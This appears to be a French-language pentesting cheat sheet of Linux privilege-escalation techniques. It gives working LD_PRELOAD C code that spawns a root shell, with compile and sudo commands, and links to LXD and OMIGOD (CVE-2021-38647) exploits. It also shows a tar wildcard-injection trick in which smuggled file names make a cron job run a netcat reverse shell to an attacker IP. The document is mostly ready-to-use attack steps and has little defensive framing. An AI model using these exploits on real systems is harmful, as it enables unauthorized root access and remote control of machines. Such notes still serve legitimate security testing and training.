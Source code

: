 ### /opt
Checker ce dossier pour trouver des éléments 

### LD_PRELOAD
En effectuant un `sudo -l`, si l'information `env_keep+=LD_PRELOAD` est trouvée, il est possible d'écrire un code en C pour accéder au serveur en `root`
```C
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h>

void _init() { 
  unsetenv("LD_PRELOAD"); 
  setgid(0); 
  setuid(0); 
  system("/bin/bash"); 
} 
```

Compiler le fichier
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles 
```

Exécution
```bash
sudo LD_PRELOAD=./shell.so [bin à exécuter]
```

### Lxc et lxd
Suivre le site ci-dessous pour un accès root 
  - https://www.hackingarticles.in/lxd-privilege-escalation/

### Port 5986 => OMIGOD
Suivre le site ci-dessous pour un accès root
  - https://github.com/AlteredSecurity/CVE-2021-38647
  
### Tar *
Si tar -zcf /tmp/XXX.tar.gz * est présent dans cron, il faut créer 3 fichiers spécifiques indiqué ci-dessous :
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc [ATTACKER IP] 4567>/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Les 3 fichiers doivent être dans le répertoire où le tar va être exécuté.
Une fois le cron passé, on peut lancer un sudo bash ou sudo –u [user]
